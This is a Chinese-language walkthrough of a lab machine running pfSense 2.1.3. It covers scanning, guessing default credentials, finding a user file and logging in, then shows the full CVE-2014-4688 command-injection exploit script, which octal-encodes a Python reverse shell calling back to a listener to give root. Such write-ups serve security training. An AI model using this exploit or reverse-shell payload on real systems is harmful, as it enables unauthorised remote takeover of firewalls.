### nmap扫描

```bash
sudo nmap -T4 -Pn -n -r -p- -vv -sV 10.10.10.60
```

发现80，443



### pfsense是个开源的防火墙和路由器功能的设备



简单尝试了下&#x20;

```bash
admin/admin,root/root,test/test,user/user,pfsense/pfsense,admin/pfsense
```

没登录成功，

看了下服务response返回 `Server: lighttpd/1.4.35`

搜了下发现

[https://www.cvedetails.com/cve-details.php?t=1\&cve\_id=CVE-2014-2323](https://www.cvedetails.com/cve-details.php?t=1\&cve_id=CVE-2014-2323 "https://www.cvedetails.com/cve-details.php?t=1\&cve_id=CVE-2014-2323")



经过验证发现不包括 `lighttpd/1.4.35` 版本



用dirbuster扫描一下web路径



扫到一个安全日志信息，说有一个漏洞没修。

[https://10.10.10.60/changelog.txt](https://10.10.10.60/changelog.txt "https://10.10.10.60/changelog.txt")



### 继续扫描发现 [system-users.txt](https://10.10.10.60/system-users.txt "system-users.txt")



尝试登录 `Rohit/pfsense`  还是登不上

最后发现用户密码是 `rohit/pfsense`



这里看到pfsense的版本是

```bash
2.1.3-RELEASE (amd64)
built on Thu May 01 15:52:13 EDT 2014
FreeBSD 8.3-RELEASE-p16
```

搜了下相关版本的漏洞



### 漏洞利用

[**https://www.exploit-db.com/exploits/43560**](https://www.exploit-db.com/exploits/43560 "https://www.exploit-db.com/exploits/43560")

CVE-2014-4688



执行脚本

```bash
python3 CVE-2014-4688.py --rhost 10.10.10.60 --lhost 10.10.14.9 --lport 23333 --username rohit --password pfsense
```

```python
#!/usr/bin/env python3

# Exploit Title: pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
# Date:2018-01-12
# Exploit Author: absolomb
# Vendor Homepage: https://www.pfsense.org/
# Software Link: https://atxfiles.pfsense.org/mirror/downloads/old/
# Version: <=2.1.3
# Tested on: FreeBSD 8.3-RELEASE-p16
# CVE : CVE-2014-4688

import argparse
import requests
import urllib
import urllib3
import collections

'''
pfSense <= 2.1.3 status_rrd_graph_img.php Command Injection.
This script will return a reverse shell on specified listener address and port.
Ensure you have started a listener to catch the shell before running!
'''

parser = argparse.ArgumentParser()
parser.add_argument("--rhost", help = "Remote Host")
parser.add_argument('--lhost', help = 'Local Host listener')
parser.add_argument('--lport', help = 'Local Port listener')
parser.add_argument("--username", help = "pfsense Username")
parser.add_argument("--password", help = "pfsense Password")
args = parser.parse_args()

rhost = args.rhost
lhost = args.lhost
lport = args.lport
username = args.username
password = args.password


# command to be converted into octal
command = """
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("%s",%s));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
""" % (lhost, lport)


payload = ""

# encode payload in octal
for char in command:
  payload += ("\\" + oct(ord(char)).lstrip("0o"))

login_url = 'https://' + rhost + '/index.php'
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"

headers = [
  ('User-Agent','Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0'),
  ('Accept', 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'),
  ('Accept-Language', 'en-US,en;q=0.5'),
  ('Referer',login_url),
  ('Connection', 'close'),
  ('Upgrade-Insecure-Requests', '1'),
  ('Content-Type', 'application/x-www-form-urlencoded')
]

# probably not necessary but did it anyways
headers = collections.OrderedDict(headers)

# Disable insecure https connection warning
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

client = requests.session()

# try to get the login page and grab the csrf token
try:
  login_page = client.get(login_url, verify=False)

  index = login_page.text.find("csrfMagicToken")
  csrf_token = login_page.text[index:index+128].split('"')[-1]

except:
  print("Could not connect to host!")
  exit()

# format login variables and data
if csrf_token:
  print("CSRF token obtained")
  login_data = [('__csrf_magic',csrf_token), ('usernamefld',username), ('passwordfld',password), ('login','Login') ]
  login_data = collections.OrderedDict(login_data)
  encoded_data = urllib.parse.urlencode(login_data)

# POST login request with data, cookies and header
  login_request = client.post(login_url, data=encoded_data, cookies=client.cookies, headers=headers)
else:
  print("No CSRF token!")
  exit()

if login_request.status_code == 200:
    print("Running exploit...")
# make GET request to vulnerable url with payload. Probably a better way to do this but if the request times out then most likely you have caught the shell
    try:
      exploit_request = client.get(exploit_url, cookies=client.cookies, headers=headers, timeout=5)
      if exploit_request.status_code:
        print("Error running exploit")
    except:
      print("Exploit completed")
            
```

执行成功



### 直接是root权限



### 也可以通过msf找到exp

`searchsploit pfsense` 或者 `search pfsense`






